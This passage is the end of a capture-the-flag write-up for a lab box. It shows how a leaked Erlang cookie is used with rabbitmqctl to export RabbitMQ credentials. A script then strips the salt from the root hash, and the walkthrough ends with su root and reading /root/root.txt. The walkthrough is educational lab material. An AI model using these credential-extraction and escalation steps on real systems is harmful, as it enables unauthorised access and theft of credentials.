 
> [!NOTE] Note
> You might need to install the tool first with `sudo pacman -S rabbitmq` or for debian `sudo apt install rabbitmq-server`.
> Then add `forge` to the your hosts file.

Check users:
```bash
sudo rabbitmqctl --node rabbit@forge --erlang-cookie 'KylOMwKdsXpLQubC' list_users
```

This result in the message:
```
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.
```

So we need to find the RabbitMQ root user's password:
```bash
sudo rabbitmqctl --node rabbit@forge --erlang-cookie 'KylOMwKdsXpLQubC' export_definitions creds.json
```

Inside we find the password hash: `49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF`
Now we need to crack that hash to find the password.

I had no clue about this app so i searched online and found the [Official Documentation](https://www.rabbitmq.com/docs/passwords) at the end of this page is exaplained the algorithm used for hashing, we have to revert it.
I made a script which illustrates step-by step what we are doing:
```bash
#!/bin/bash

# Script to decode RabbitMQ password
echo -e "Input the hash here:\n"
read HASH

# Decode from base64
B64_DECODED=$(echo "$HASH" | base64 -d)

# Decodes the Base64 string into raw binary data (hex format)
DECODED_FINAL=$(echo "$B64_DECODED" | xxd -p -c 1000) # -c 1000 ensure the output is in a single line

# Remove the first 8 characters (4 bytes in hex)
result="${DECODED_FINAL:8}"

# Print the root password
echo -e "\n The root password is:  $result"
```

Now on the target:
```bash
su root
```
```bash
cat /root/root.txt
```

<br/>
<br/>

## Conclusion
Congratulations you have successfully exploited the Prototype Pollution vulnearbility to gain an initial foothold and reversed the hashing algorithm of the application.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
